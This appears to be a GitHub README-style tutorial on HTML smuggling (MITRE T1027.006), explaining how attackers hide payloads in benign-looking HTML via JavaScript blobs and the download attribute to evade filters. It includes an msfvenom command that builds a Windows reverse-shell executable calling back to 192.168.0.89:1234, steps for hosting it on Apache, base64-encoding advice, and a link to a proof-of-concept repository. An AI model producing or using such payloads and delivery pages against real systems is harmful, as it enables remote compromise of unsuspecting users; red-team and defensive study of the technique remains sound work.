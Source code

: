 ```yaml
---
title: HTML Smuggling
category: Defense Evasion
tags: [HTML Smuggling (T1027.006), Obfuscated Files or Information (T1027), Delivery]
---
```

## HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.
```css
    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
```
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.
```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe
```
```bash
    cp payload.exe /var/www/html
```
Then we copy this into the apache webroot and start the apache server
```bash
    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start
```
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.

## GitHub Repoitory for POC

https://github.com/ashizZz/HTML-Smuggling